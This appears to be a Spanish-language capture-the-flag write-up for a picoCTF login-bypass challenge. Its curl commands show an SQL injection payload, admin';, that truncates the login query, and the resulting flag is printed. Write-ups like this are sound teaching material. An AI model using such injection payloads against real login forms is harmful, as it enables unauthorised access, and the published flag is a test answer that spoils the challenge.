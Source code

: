 ## Descripcion

There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Solucion
![[Inyeccion2.png]]

Solucion 2

``` bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=carlos&password=hola&debug=1"
<pre>username: carlos
password: hola
SQL query: SELECT * FROM users WHERE name='carlos' AND password='hola'
</pre><h1>Login failed.</h1>                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>  
```
## Bandera
picoCTF{m0R3_SQL_plz_fa983901}

## Notas adicionales
|

## Referencias
https://www.w3schools.com/sql/sql_injection.asp